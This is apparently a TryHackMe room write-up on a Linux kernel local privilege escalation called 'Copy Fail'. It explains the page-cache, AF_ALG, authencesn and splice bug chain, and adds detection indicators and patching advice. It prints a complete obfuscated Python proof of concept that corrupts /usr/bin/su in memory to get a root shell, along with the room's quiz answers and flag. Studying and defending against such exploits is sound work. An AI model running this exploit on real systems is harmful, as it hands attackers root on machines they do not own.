


**TryHackMe Room:** [CVE-2026-31341](https://tryhackme.com/room/cve202631341)

---

# Copy Fail (CVE-2026-31431)
### Linux Kernel Local Privilege Escalation (LPE)

## 📖 Introduction

### 🔹 Overview
- **Vulnerability:** Local Privilege Escalation (LPE) in the Linux kernel.
- **Impact:** Allows an **unprivileged user to gain root access in seconds**.
- **Reliability:** The exploit is **highly reliable**, unlike typical fragile kernel exploits.
- **Requirements:** Only requires a **small (~732-byte) Python script**, with no external dependencies.

### 🔹 Core Vulnerability Concept
- An attacker can **write 4 controlled bytes into the page cache** of any readable file.    
- This does **not modify the actual file on disk**.
- Enables bypass of:    
    - File integrity monitoring (e.g., AIDE).
    - Traditional detection mechanisms.

### 🔹 Key Components Involved
The exploit chain combines four main elements:
1. **Page Cache:** The in-memory file representation.    
2. **AF_ALG:** The crypto socket interface (entry point for abuse).
3. **authencesn:** The AEAD template (vulnerable crypto implementation).
4. **splice() syscall:** Enables unintended page cache write.

### 🔹 Why It’s Dangerous
- **No race condition required:** Deterministic execution.
- **No kernel offsets needed:** Works across systems easily.
- **No crashes on failure:** Safe and repeatable exploitation.
- Extremely **fast weaponization** after disclosure.

### 🔹 Timeline
- **2017:** Introduced via kernel optimization.
- **23 March 2026:** Discovered and reported by **Taeyang Lee (Theori)**.
- **29 April 2026:** Public disclosure.
- **~9 years:** Total time affected systems were vulnerable.

### 🔹 Exploitation Outcome
Any local user can run the PoC and gain a **root shell almost instantly**.

### 🔹 Detection & Mitigation
- **Detection Difficulties:** No disk changes and minimal artifacts.
- **Key Signals:** Suspicious use of **AF_ALG sockets + splice()**.
- **Mitigation:**
    - Apply **kernel patches (April 2026 or later)**.
    - Use **modprobe restrictions** (Ubuntu/Debian hardening).

---

## 🛠️ The Vulnerability

**1. The Page Cache**
The kernel keeps recently-read files in memory (the "page cache") so reads are fast. All processes share the same cached copy. Integrity tools like AIDE hash the *on-disk* file — not the memory copy. So if you corrupt the memory copy, the file looks clean on disk.

**2. AF_ALG — Crypto Sockets, Open to Anyone**
Linux lets unprivileged users access kernel crypto operations via `AF_ALG` sockets. No special permissions are needed. This is the attacker's entry point.

**3. authencesn — Writes Before Checking**
The `authencesn` crypto algorithm writes 4 bytes into its output buffer *before* verifying the HMAC tag. If the tag is wrong (and the attacker makes it wrong on purpose), the error is returned — but the write already happened. No rollback. The attacker controls both *what* is written and *where*.

**4. splice() — Zero-Copy Means Sharing Pages**
`splice()` moves file data into sockets without copying it. It hands the socket a reference to the actual page-cache pages. After a splice from `/usr/bin/su`, the crypto pipeline is now pointing directly at that file's live memory.

**5. The 2017 Bug — Output = Input**
A 2017 optimization merged the input and output scatterlists (`req->src = req->dst`). For normal writes, this was safe. For `splice`'d pages, it wasn't — the "output" buffer now pointed at the live page cache. So `authencesn`'s scratch write lands directly in the kernel's copy of the file.

### 🧠 Knowledge Check

> **Q: What year was the optimization introduced that created this vulnerability?**
> **A:** 2017
> 
> **Q: Which AEAD algorithm template performs the scratch write that corrupts the page cache?**
> **A:** `authencesn`
> 
> **Q: What system call transfers page cache pages into the AF_ALG socket without copying them?**
> **A:** `splice`
> 
> **Q: The HMAC verification fails after the scratch write is performed. Does this undo the page cache corruption? (Answer Format: Yay or Nay)**
> **A:** Nay

---

## 💻 Exploitation

### Proof of Concept (PoC)
*Source: [Copy-Fail-Exploit-CVE-2026-31431](https://github.com/painoob/Copy-Fail-Exploit-CVE-2026-31431/blob/main/copy_fail_exp.py)*

```python
#!/usr/bin/env python3
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
def c(f,t,c):
 a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
 try:u.recv(8+t)
 except:0
f=g.open("/usr/bin/su",0);i=0;e=zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))
while i<len(e):c(f,i,e[i:i+4]);i+=4
g.system("su")
````

### Execution

Bash

```
python3 exploit.py
```

### Room Flag

Plaintext

```
THM{copy_fail_kernel_lpe}
```



## 🛡️ Detection and Remediation

### Why it's hard to catch after the fact

**Evidence disappears in seconds.**

The exploit leaves no trace on disk. When it's done, the memory is cleaned up automatically. By the time someone investigates, the file looks normal, the disk is unchanged, and there's nothing to find. You have to catch it _while it's happening_.

### What to watch for

**The main clue — AF_ALG sockets**

The exploit opens a special crypto socket (`AF_ALG`) about 40 times in a few seconds. Almost no legitimate software does this. If you see a normal process doing it, that's your alert.

Key behavioral indicators:

- `socket(AF_ALG)` — Fires before any damage. Best early warning.
    
- `splice()` from a setuid binary (like `/usr/bin/su`) into a socket — The moment the file's memory enters the exploit chain.
    
- `recvmsg()` called ~40 times fast from the same process — Each call writes 4 bytes of shellcode.
    
- `posix_fadvise(DONTNEED)` on a setuid binary — Attacker cleaning up their tracks.
    

_Note: Legit programs that use AF_ALG include `cryptsetup`, `charon`, and `kcapi-*`. Anything else doing this is highly suspicious._

### How to block it

**Disable the module the exploit needs**

The exploit can't run without the `algif_aead` kernel module. Blocking it stops the attack at step one — the very first socket call fails and nothing else runs.

- **Ubuntu/Debian:** Use `modprobe` blacklist.
    
- **RHEL/CentOS/AlmaLinux:** The module is baked into the kernel — use `grubby` instead. (The `modprobe` fix silently does nothing on RHEL systems).
    

### Permanent Fix

Update to kernel **6.18.22**, **6.19.12**, or **7.0+**. The patch (commit `a664bf3d603d`, landed 1 April 2026) undoes the 2017 optimization that caused the bug.

- AlmaLinux patched first on 1 May.
    
- Ubuntu, Debian, RHEL, and SUSE followed shortly after.
    

### 🧠 Knowledge Check

> **Q: What command checks whether algif_aead is a loadable module or compiled into the kernel?**
> **A:** `modinfo algif_aead`


---
## Takeaways

The Linux page cache is shared infrastructure. One process writing to it affects every process sharing the same kernel, including containers that appear to be fully isolated by namespace and capability restrictions. Isolation at the namespace layer does not extend down to the page cache.

---
## 🧑‍💻 Author

Morningstar - Cybersecurity Learner & CTF Player

---
